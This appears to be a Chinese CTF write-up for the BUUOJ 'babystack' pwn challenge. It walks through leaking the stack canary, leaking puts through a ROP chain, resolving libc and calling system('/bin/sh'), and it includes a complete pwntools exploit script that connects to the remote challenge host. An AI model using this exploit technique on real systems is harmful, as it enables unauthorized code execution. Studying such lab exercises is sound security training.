

- Canary 保护
- 程序控制流
- 64位libc泄露

```shell
bamuwe@bamuwe:~/done/others_babystack$ checksec babystack
[*] '/home/bamuwe/done/others_babystack/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了Canary保护



1. 程序存在`Canary`保护，所以要先泄露出`Canary`
2. `read`中存在溢出
3. 通过`read`配合`puts`得到`Canary`的值
4. 构造`payload`利用`exit`函数劫持程序流，泄露`libc`
5. 构造`payload`得到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'
# io = gdb.debug('./babystack')
io = remote('node5.buuoj.cn',29522)
elf = ELF('./babystack')
padding = cyclic(136)
pop_rdi_ret = 0x0000000000400a93
main_addr = 0x400908

def cmd(idx):
    io.sendlineafter(b'>>',str(idx))
def leak_canry():
    cmd(1)
    io.sendline(padding)
    cmd(2)
    io.recvuntil('\n')
    canary = u64(io.recv(7).rjust(8, b'\x00'))
    print(hex(canary))
    return canary
def leak_puts(canary):
    cmd(1)
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main_addr)
    io.sendline(payload)
    cmd(3)
    puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr
def pwn(puts_addr):
    libc = LibcSearcher('puts',puts_addr)
    lib_offset = puts_addr - libc.dump('puts')
    sys_addr = lib_offset+libc.dump('system')
    bin_sh_addr = lib_offset+libc.dump('str_bin_sh')
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)
    cmd(1)
    io.sendline(payload)
    cmd(3)
    io.sendline('cat flag')
    io.interactive()

canary = leak_canry()
puts_addr = leak_puts(canary)
pwn(puts_addr)

```

这里面看佬的wp新学一招，使用`cyclic(lengths)`可以直接得到所需长度的循环字符串

